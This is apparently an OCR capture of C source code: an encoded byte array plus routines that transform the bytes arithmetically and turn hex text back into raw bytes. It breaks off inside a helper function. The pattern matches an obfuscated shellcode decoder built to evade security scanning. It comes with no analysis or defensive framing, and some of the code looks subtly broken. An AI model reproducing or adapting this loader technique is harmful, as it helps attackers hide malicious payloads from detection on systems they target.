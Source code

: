 ```c
"\x11\x25\x7d\x02\x20\x77\x07\x7d\x7d\x7d\x1b\x0c\x78\x72\x07\x01\x6d\x02"
"\x11\x02\x07\x72\x6d\x20\x02\x25\x72\x7d\x06\x06\x77\x25\x02\x7c\x25\x77"
"\x11\x1b\x25\x01\x72\x6d\x16\x6d\x07\x16\x01\x7c\x11\x72\x16\x6d\x7d\x07"
"\x20\x11\x06\x20\x06\x25\x06\x20\x11\x11\x1b\x16\x01\x02\x11\x16\x78\x02"
"\x7c\x06\x7c\x0c\x6d\x01\x77\x16\x77\x7c\x0c\x06\x7d\x25\x06\x0c\x78\x06"
"\x78\x25\x16\x02\x72\x77\x77\x72\x01\x6d\x16\x7c\x07\x7c\x25\x25\x11\x1b"
"\x0c\x6d\x02\x7c\x16\x1b\x11\x1b\x7c\x16\x7d\x25\x07\x1b\x78\x01\x20\x78"
"\x06\x1b\x06\x7d\x06\x20\x16\x02\x6d\x7d\x6d\x72\x11\x1b\x02\x7c\x02\x11"
"\x02\x7c\x25\x0c\x01\x01\x07\x07\x07\x02\x06\x7d\x25\x20\x7c\x72\x20\x07"
"\x6d\x77\x7c\x77\x01\x0c\x02\x77\x07\x25\x01\x25\x25\x7c\x11\x78\x7c\x25"
"\x7d\x16\x1b\x0c\x7c\x7d\x01\x25\x11\x77\x7c\x0c\x1b\x78\x16\x02\x07\x25"
"\x20\x7c\x77\x78\x01\x06\x72\x6d\x1b\x20\x78\x16\x7d\x16\x07\x25\x20\x20"
"\x06\x1b\x01\x7c\x02\x7d\x06\x25\x06\x02\x6d\x6d\x01\x11\x7d\x02\x20\x06"
"\x6d\x07\x20\x07\x7d\x0c\x07\x77\x77\x07\x20\x7d";

unsigned char* hexTochar(char* code) {
    char* end;
    unsigned long int j = strtol(code, &end, 16);
    char* str = (char*)calloc(strlen(code), sizeof(char));
    int i = 0;
    for (;; ) {
        sprintf(str + i * sizeof(char), "%c", (int)j);
        i++;
        j = strtol(end, &end, 16);
        if (j == 0)
            break;
    }
    return (unsigned char*)str;
}

char* operation(char* code, size_t len)
{
    unsigned int  k, y1 = 0, y2 = 0, x1 = 0, x2 = 0;
    char* b = (char*)calloc(strlen(code), (len + 1) * 4);
    char* b2 = (char*)calloc(strlen(code), (len + 1) * 4);

    for (k = 0; code[k] != '\0'; k += 2)
    {
        y1 = code[k];
        y2 = code[k + 1];
        x1 = (y1 - 8) * ((18 << 2) + 5) & ((32 << 2) - 1);
        x2 = (y2 - 8) * ((18 << 2) + 5) & ((32 << 2) - 1);
        b[k] = x1;
        b[k + 1] = x2;
        sprintf(b2 + strlen(b2), "%c%c ", b[k], b[k + 1]);
        b = (char*)realloc(b, (len + 1) * 4);
        b2 = (char*)realloc(b2, (len + 1) * 4);
    }

    free(b);
    return b2;
}

char *string_malloc(size_t size)
{
    char *str = (char*)malloc(size); 
    if (str == NULL)
    {
        fprintf(stderr, "out of memory"); 
        exit(EXIT_FAILURE); 
    }
    for (size_t i = 0; i < size; i++)
    {
```
